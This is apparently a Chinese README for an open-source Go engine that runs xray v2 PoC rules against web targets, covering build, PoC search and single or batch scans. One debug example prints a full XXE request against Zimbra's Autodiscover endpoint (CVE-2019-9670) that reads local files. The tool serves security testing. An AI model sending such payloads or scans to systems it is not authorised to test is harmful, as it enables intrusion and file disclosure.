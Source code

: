 ## 简介
xray poc 发生了一次改版。导致之前的poc引擎不能使用。正好之前工作做过这方面的工作，重新写了一版xray poc v2版本的解工具。

特此开源出来，希望能和研究这方面技术的师傅多交流。

## 使用
### 编译
```shell
go build -x -ldflags "-s -w" -o xray_poc
```
### 查看帮助
```shell
➜  xray-poc-scan-engine ./xray_poc                              
xray poc规则发生了一次变化,导致之前的poc扫描器不能使用，故重新写一版。
                        xray v2版本的poc规则:https://docs.xray.cool/#/guide/poc/v2

Usage:
  xray_poc [command]

Available Commands:
  completion  generate the autocompletion script for the specified shell
  help        Help about any command
  poc         xray_poc search poc查看模块
  scan        xray_poc scan poc扫描模块

Flags:
  -h, --help   help for xray_poc

Use "xray_poc [command] --help" for more information about a command.
```

### poc模块
#### 搜索某个poc。支持模糊匹配
如：./xray_poc poc --search "xxe"
```shell
➜  xray-poc-scan-engine ./xray_poc poc --search "xxe"
 #   Poc Name                                
--- -----------------------------------------
 0   poc-yaml-apache-ofbiz-cve-2018-8033-xxe 
 1   poc-yaml-solr-cve-2017-12629-xxe        
 2   poc-yaml-zimbra-cve-2019-9670-xxe 
```
搜索到所有关于xxe的poc

### scan模块
### 扫描指定目标，使用指定pocName
如：./xray_poc scan --u "http://h11ba1.com" --poc "poc-yaml-zimbra-cve-2019-9670-xxe"
```go
➜  xray-poc-scan-engine ./xray_poc scan --u "http://h11ba1.com" --poc "poc-yaml-zimbra-cve-2019-9670-xxe"
2022/02/18 - 15:19:48.501  ▶ [Debug] request:POST /Autodiscover/Autodiscover.xml HTTP/1.1
Host: h11ba1.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169

<!DOCTYPE xxe [<!ELEMENT name ANY ><!ENTITY xxe SYSTEM "file:./" >]><Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a"><Request><EMailAddress>test@test.com</EMailAddress><AcceptableResponseSchema>&xxe;</AcceptableResponseSchema></Request></Autodiscover>
2022/02/18 - 15:19:48.515  ▶ [Debug] res false response.body.bcontains(b"zmmailboxd.out") && response.body.bcontains(b"Requested response schema not available")
2022/02/18 - 15:19:48.515  ▶ [Debug] poc:poc-yaml-zimbra-cve-2019-9670-xxe rule url:http://h11ba1.com/Autodiscover/Autodiscover.xml expression execute failed
#   target-url          poc-name                            status
--- ------------------- ----------------------------------- --------
0   http://h11ba1.com   poc-yaml-zimbra-cve-2019-9670-xxe   false
```
### 扫描指定目标，不指定poc，默认使用所有poc
如：./xray_poc scan --u "http://h11ba1.com" 

### 批量扫描多个目标
如： ./xray_poc scan --f "test.txt" --poc "xxe"
```go
 #   target-url          poc-name                                  status 
--- ------------------- ----------------------------------------- --------
 0   http://h11ba1.com   poc-yaml-apache-ofbiz-cve-2018-8033-xxe   false  
 1   http://h22ba2.com   poc-yaml-apache-ofbiz-cve-2018-8033-xxe   false  
 2   http://h11ba1.com   poc-yaml-zimbra-cve-2019-9670-xxe         false  
 3   http://h22ba2.com   poc-yaml-zimbra-cve-2019-9670-xxe         false
```

## 扫描结果成功 `status` 为 `true`

## TODO
本项目两三天赶工出来，肯定存在很多bug。师傅们发现可以给我提issues。有空肯定及时更新。

待完善模块：
### [ ]增加proxy模块
### [ ]完善dns反连功能
### [ ]完善漏洞结果判断功能
### [ ]优化结果显示功能

## 参考项目
https://github.com/jjf012/gopoc

## 免责声明

本项目只用于学习交流目的。

由于传播、利用该工具（下简称本工具）提供的检测功能而造成的任何直接或者间接的后果及损失，均由使用者本人负责，开发者 不为此承担任何责任。
